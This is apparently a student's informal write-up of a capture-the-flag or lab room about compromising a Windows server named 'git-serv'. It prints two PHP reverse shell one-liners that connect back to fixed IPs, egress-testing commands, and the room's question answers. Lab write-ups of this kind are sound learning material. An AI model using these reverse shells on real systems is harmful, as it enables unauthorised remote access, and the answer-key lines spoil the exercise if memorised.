 ## burpsuite method work fine but it is lengthy as first open burp proxy then make a request and then send it to the repeater and the changing it content with our sake so that so timetaking so use curl command is good 

## php reverse shell tiny code

##
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
##

## php reverse shell tiny command for linux

##
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
##

Q2: What is the hostname for this target? 
A: git-serv

Q3: What operating system is this target? 
A: windows

Q4: What user is the server running as?
A: nt authority\system

### 

Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world. The typical way of doing this is by executing the ping command on the compromised server to ping our own IP and using a network interceptor (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it through. If they do then network connectivity is established, otherwise we may need to go back to the drawing board.

To start up a TCPDump listener we would use the following command:
tcpdump -i tun0 icmp

Note: if your VPN is not using the tun0 interface then you will need to replace this with the correct interface for your system which can be found using ip -a link to see the available interfaces.

Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):
ping -n 3 ATTACKING_IP

This will send three ICMP ping packets back to you.

Q5: How many make it to the waiting listener? 
A: 0


## As we see the target is not connect outside the world so we have to do other things
